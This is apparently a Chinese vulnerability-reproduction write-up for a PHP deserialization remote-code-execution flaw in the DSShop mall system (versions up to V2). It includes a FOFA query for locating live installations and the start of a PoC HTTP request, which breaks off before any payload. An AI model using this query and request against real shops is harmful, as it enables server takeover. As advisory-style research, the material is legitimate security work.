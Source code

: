 
# DSShop 移动商城网店系统 反序列化 RCE 漏洞复现

### 0x01 产品简介

   DSShop 是长沙德尚网络科技有限公司推出的一款单店铺移动商城网店系统，能够帮助企业和个人快速构建手机移动商城，并减少二次开发带来的成本。  
以其丰富的营销功能，精细化的用户运营，解决电商引流、推广难题，帮助企业打造生态级 B2C 盈利模式商业平台。完备的电商功能，为企业提升了行业电商品牌的美誉度。系统安全、稳定、快速，便捷的功能扩展及可以进行二次开发的多用户商城源码，为企业电商业务长线快速发展提供了强有力的保障。适用企业：各类百货 MALL、行业实体市场、电商产业园、行业协会、行业门户网站等。

### 0x02 漏洞概述

  DSShop 单店铺移动商城网店系统的 getCartList 方法的 cart 参数存在 php 反序列化漏洞，攻击者可以通过漏洞执行任意代码，获取服务器权限。

### 0x03 影响范围

DSShop <=V2

### 0x04 复现环境

FOFA：title="德尚商城 - 程序来源于德尚网络"

![](assets/1701746457-cc4dc949c9bc53ebb3db24b4ba1a3b46.png)

### 0x05 漏洞复现 

PoC

```cobol
POST /index.php?s=home/article/index HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
C
```
